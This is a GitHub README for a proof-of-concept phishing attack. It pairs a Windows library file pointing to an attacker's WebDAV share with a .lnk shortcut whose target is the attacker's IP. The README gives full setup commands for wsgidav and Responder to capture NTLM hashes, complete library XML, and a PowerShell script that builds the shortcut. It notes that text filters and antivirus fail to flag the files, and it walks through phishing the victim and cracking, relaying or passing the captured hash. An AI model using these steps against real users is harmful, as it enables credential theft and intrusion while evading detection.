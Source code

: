 # lnk-with-Webdav-POC
Windows Defender and Avira AV Does not flag the Lnk as malicious.
##Tested on
```
Windows 10 Pro
BuildNumber     : 19045
Version         : 10.0.19045

Windows 11
BuildNumber     : 22000
Version         : 10.0.22000
```
 ## Youtube Demo 📹
 https://youtu.be/-sw7Sdkfh-U
### Requirements ⚙️
* Python3

### Setup 🛠️
<b> On the kali linux attacker machine, on the terminal</b> <br />
```
pip3 install wsgidav
mkdir /home/kali/webdav

Running the wsgidav hosted on /home/kali/webdav
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/ 
```
<b> On the kali linux attacker machine, on a new tab of the terminal. run responder to capture NTLM hash</b> <br />
```
responder -I eth0 -dwFP -v
```
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/c1f59930-d518-4fa1-9cd2-4f42799c80d5)
Ensure that SMB server is on
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/1715fa7b-bf04-4c1a-97e1-7e967ddab24f)

### On windows attacker machine

## Creating the Window library file to connect to our webdav share. 
This file can be used as a virtual containers to carry our payloads to avoid suspicions. 
we can use Notepad or any text editor could also be used to create the file.

We can save the file HRFolder.
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/c660329d-b3db-4fca-be8a-5f429461f8f4)

Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations. The parts are General library information, Library properties, and Library locations. Let's build the XML code by adding and explain the tags. We can refer to the Library Description Schema6 for further information. We'll begin by adding the XML and library file's format version.
The listing below contains the namespace7 for the library file. This is the namespace for the version of the library file format starting from Windows 7. The listing also contains the closing tag for the library description. All of the following tags we cover will be added inside the libraryDescription tags.
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
</libraryDescription>
```
Next, we'll add two tags providing information about the library. The name tag specifies the name of this library. We must not confuse this with an arbitrary name we can just set randomly. 
We need to specify the name of the library by providing a DLL name and index. We can use @shell32.dll,-34575 or @windows.storage.dll,-34582 as specified on the Microsoft website. 
We'll use the latter to avoid any issues with text-based filters that may flag on "shell32". 
The version tag can be set to a numerical value of our choice, for example, 7.
```
<name>@windows.storage.dll,-34582</name>
<version>7</version>
```
Name and Version Tags of the Library

Next, we'll add the isLibraryPinned11 tag. This element specifies if the library is pinned to the navigation pane in Windows Explorer. 
The next tag we'll add is iconReference, which determines what icon is used to display the library file. We must specify the value in the same format as the name element. 
We can use imagesres.dll to choose between all Windows icons. We can use index "-1002" for the Documents folder icon.
```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1002</iconReference>
```


The next tag marks the beginning of the library locations section. In this section, we specify the storage location where our library file should point to. We'll begin by creating the searchConnectorDescriptionList, tag which contains a list of search connectors defined by searchConnectorDescription. 
Search connectors are used by library files to specify the connection settings to a remote location. 

We can specify one or more searchConnectorDescription elements inside the searchConnectorDescriptionList tags. 
For this example we only specify one. If we used more than 1 folder, it will display contents from other folders as well making it look more legitimate.
Inside the description of the search connector, we'll specify information and parameters for our WebDAV share. The first tag we'll add is the isDefaultSaveLocation tag with the value set to true. 
This tag determines the behavior of Windows Explorer when a user chooses to save an item. To use the default behavior and location, we'll set it to true. Next, we'll add the isSupported tag, which is not documented in the Microsoft Documentation webpage, and is used for compatibility. We can set it to false.

**The most important tag is url,which we need to point to our previously-created WebDAV share over HTTP. It is contained within the simpleLocation tags, which we can use to specify the remote location in a more user-friendly way as the normal locationProvider element.**
```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<your webdav share url></url></simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```
The entire XML would look something like this
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>7</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.1.67</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
## Creating the Windows shortcut payload using powershell
Run this on powershell to create the shortcut on your desktop, change the $shortcutPath accordingly 
```
$targetPath = "\\192.168.1.67\test"
$shortcutPath = "C:\Users\JJ\Desktop\HRdocuments.lnk"

# Create a WScript.Shell object 
$shell = New-Object -ComObject WScript.Shell
 # Create a shortcut object 
$shortcut = $shell.CreateShortcut($shortcutPath)
 # Set the target path of the shortcut
 $shortcut.TargetPath = $targetPath
 # Save the shortcut 
$shortcut.Save()
```
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/455d1c59-c587-49b1-8085-87cbf52687ef)

### Next, we could move the .lnk inside the webdav share directory
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/eb2f568c-06d1-4caa-a248-06d89dbd132a)

# Send the Windows library file to the victim, for e.g phishing email.
Giving instructions for the user to click on the hr folder, and the windows shortcut.
The responder should be able to harvest the credentials hash successful. We can then either crack the hash for the user password or we can relay them to a tool like ntlmrelayx, or pass the hash directly for authentication as potential exploitations
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/154a6e66-51cb-4b7c-a0cc-233959918bcd)

## Using hashcat to crack the NTLM hash recovered
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/2c926b5a-bb79-45b6-820b-650dd96d8df7)
![image](https://github.com/2102596sit/lnk-with-Webdav-POC/assets/90232201/b9b70946-b037-49dc-a334-d86cf4dcd92a)


